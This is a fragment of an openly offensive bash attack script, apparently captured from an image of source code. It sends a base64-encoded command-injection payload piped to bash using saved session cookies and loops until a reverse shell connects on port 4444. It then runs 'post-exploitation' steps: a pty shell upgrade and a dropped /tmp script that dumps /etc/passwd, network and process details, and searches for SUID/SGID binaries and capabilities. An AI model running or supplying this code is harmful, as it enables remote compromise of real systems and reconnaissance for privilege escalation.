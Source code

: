 ```bash
         -b cookies.txt \
         -d "command=echo '$encoded_payload' | base64 -d | bash" &
    
    sleep 3
    
    # Check if connection established
    if netstat -an | grep -q ":4444.*ESTABLISHED"; then
        echo "Reverse shell established with payload: $payload"
        break
    fi
done

# ========================================
# PHASE 7: POST-EXPLOITATION & ENUMERATION
# ========================================

# Once reverse shell is established, upgrade to interactive shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
export SHELL=/bin/bash

# Comprehensive Linux enumeration script
cat > /tmp/linux_enum.sh << 'ENUM_SCRIPT'
#!/bin/bash
# Comprehensive Linux Enumeration Script

echo "=== SYSTEM INFORMATION ==="
uname -a
cat /etc/os-release
cat /proc/version
hostname
uptime

echo -e "\n=== USER INFORMATION ==="
whoami
id
groups
cat /etc/passwd
cat /etc/group

echo -e "\n=== NETWORK INFORMATION ==="
ifconfig -a 2>/dev/null || ip addr show
route -n 2>/dev/null || ip route show
netstat -tulpn 2>/dev/null || ss -tulpn
cat /etc/hosts
cat /etc/resolv.conf

echo -e "\n=== PROCESS INFORMATION ==="
ps aux
ps -elf

echo -e "\n=== FILE SYSTEM INFORMATION ==="
df -h
mount
cat /etc/fstab

echo -e "\n=== SUID/SGID BINARIES ==="
find / -perm -4000 -type f -ls 2>/dev/null
find / -perm -2000 -type f -ls 2>/dev/null

echo -e "\n=== CAPABILITIES ==="
getcap -r / 2>/dev/null

```